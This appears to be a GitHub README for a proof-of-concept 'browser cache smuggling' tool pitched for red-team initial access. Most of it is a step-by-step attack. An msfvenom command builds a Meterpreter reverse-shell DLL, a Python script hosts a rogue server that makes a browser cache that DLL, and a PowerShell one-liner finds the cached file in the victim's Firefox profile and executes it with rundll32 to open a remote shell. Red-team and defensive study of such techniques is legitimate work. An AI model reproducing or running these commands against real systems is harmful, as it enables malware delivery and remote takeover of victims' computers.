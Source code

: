 # Browser cache smuggling Attack

- This repository is all about the POC that can be leveraged down for initial access in red teaming engagements.
- This Repo is in development , we will be adding more module for Brave & Chrome Browser soon....

# Theory Behind it :

- To better understand how this attack work , please navigate to : 
# How to Execute it ?

## **Step 1 :** 
Git Clone the URL  & install the dependency : `pip3 install -r requirements.txt` 
also make sure Nginx is installed on the machine 

## **Step 2:** 
create your malicious DLL file , from your favorite C2 server . example :
`msfvenom -p /windows/x64/meterpreter/reverse_tcp LHOST=<localip> LPORT=<local_port> -f dll -o malicious.dll` and configure your listener accordingly .

## **Step 3:**
Host you rouge Server that coerce browser to Cache The response.

```python3
python3 browsercachesmuggling.py --dll /root/smugglers.dll <malicious_dll>
```

![[https://github.com/surya-dev-singh/BrowserCacheSmuggling/blob/main/image.png?raw=true]]

## Step 4:
Once Our data is begin cache , we can now run the following command on victim PC like so: 

```powershell
foreach ($files in @("$env:LOCALAPPDATA\Mozilla\Firefox\Profiles\*.default-release\cache2\entries\")) {Get-ChildItem $files -Recurse | ForEach-Object {if (Select-String -Pattern "ENTRYPOINT" -Path $_.FullName) {$dllPath = $_.FullName + '.'; rundll32.exe $dllPath,MainDll}}}
```

and we will get our reverse shell !! 
